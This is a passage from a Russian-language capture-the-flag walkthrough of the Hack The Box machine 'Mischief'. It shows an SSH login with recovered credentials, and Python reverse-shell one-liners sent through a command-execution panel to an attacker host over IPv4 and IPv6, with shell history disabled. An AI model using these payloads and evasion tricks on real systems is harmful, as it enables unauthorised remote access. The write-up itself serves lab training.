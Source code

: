 И у нас есть данные для вторжения по SSH `loki:lokiisthebestnorsegod`:
```text
root@kali:~# sshpass -p 'lokiisthebestnorsegod' ssh loki@10.10.10.92
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.


Last login: Sat Jul 14 12:44:04 2018 from 10.10.14.4
loki@Mischief:~$ whoami
loki
```

#### user.txt
```text
loki@Mischief:~$ cat user.txt
bf58078e????????????????????????
```

### 2-й способ: Reverse-Shell
Самозванный WAF не блочит `python`, поэтому скрафтим на его основе реверс-шелл и попытаемся поймать отклик:
```text
root@kali:~# ./command_execution_panel.sh 'dead:beef::250:56ff:feb9:7caa' 'PHPSESSID=lofmvtjj3hq2jfp1pgev2bh1pb'
mischief> python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",31337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/bash");s.close()'

```

И лишь тишина была ему ответом...

Шелл не вернулся, но по характерному зависанию могу предположить, что исходящий трафик фильтруется... IPv4-трафик :smiling_imp:

А вот с IPv6-шеллом [все прекрасно]({{ page.url }}#iptables):
```text
root@kali:~# ./command_execution_panel.sh 'dead:beef::250:56ff:feb9:7caa' 'PHPSESSID=lofmvtjj3hq2jfp1pgev2bh1pb'
mischief> python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::1009",31337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE","/dev/null");pty.spawn("/bin/sh");s.close()'

```
